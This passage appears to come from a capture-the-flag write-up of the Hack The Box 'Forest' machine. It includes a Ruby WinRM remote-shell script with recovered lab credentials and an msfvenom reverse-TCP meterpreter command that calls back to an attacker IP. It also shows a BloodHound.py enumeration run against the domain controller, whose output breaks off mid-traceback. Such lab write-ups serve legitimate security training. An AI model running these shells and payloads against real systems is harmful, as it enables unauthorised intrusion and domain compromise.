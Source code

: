 
    :::ruby
    require 'winrm'

    conn = WinRM::Connection.new(
      endpoint: 'http://10.10.10.161:5985/wsman',
      user: 'svc-alfresco',
      password: 's3rvice',
    )

    command=""

    conn.shell(:powershell) do |shell|
        until command == "exit\n" do
            print "PS > "
            command = gets
            output = shell.run(command) do |stdout, stderr|
                STDOUT.print stdout
                STDERR.print stderr
            end
        end
        puts "Exiting with code #{output.exitcode}"
    end

The msfvenom command to generate the meterpreter is the following:

    :::text
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST="10.10.15.185" LPORT=4444 -f exe > shell.exe

To catch the reverse meterpreter we use the `exploit/multi/handler` metasploit
module. We can get a cmd shell using the `shell` command.

## Bloodhound

As we need to elevate our privileges on a Windows environnement we want to run
Bloodhound to see the differents relationships between the domain's users,
groups and computers.
We use a [bloodhound ingestor based on impacket](https://github.com/fox-it/BloodHound.py)
that allow to grab credentials remotly. But we get some error about DNS
resolution probably because of our VPN configuration.

    :::text
    python ./bloodhound.py -d 'htb.local' -dc 10.10.10.161 -gc 10.10.10.161 -u svc-alfresco -p s3rvice -v -ns 10.10.10.161 -c all
    DEBUG: Authentication: username/password
    DEBUG: Resolved collection methods: localadmin, rdp, dcom, acl, objectprops, session, group, trusts
    DEBUG: Using DNS to retrieve domain information
    DEBUG: Querying domain controller information from DNS
    DEBUG: Using domain hint: htb.local
    INFO: Found AD domain: htb.local
    DEBUG: Found primary DC: FOREST.htb.local
    DEBUG: Found Global Catalog server: FOREST.htb.local
    DEBUG: Using LDAP server: 10.10.10.161
    DEBUG: Using base DN: DC=htb,DC=local
    INFO: Connecting to LDAP server: 10.10.10.161
    Traceback (most recent call last):
      File "./bloodhound.py", line 5, in <module>
        bloodhound.main()
      File "/root/BloodHound.py/bloodhound/__init__.py", line 265, in main
        disable_pooling=args.disable_pooling)
      File "/root/BloodHound.py/bloodhound/__init__.py", line 68, in run
        self.pdc.prefetch_info('objectprops' in collect, 'acl' in collect)
      File "/root/BloodHound.py/bloodhound/ad/domain.py", line 330, in prefetch_info
        self.get_domains(acl=acls)
      File "/root/BloodHound.py/bloodhound/ad/domain.py", line 204, in get_domains
        for entry in entries:
      File "/root/BloodHound.py/bloodhound/ad/domain.py", line 106, in search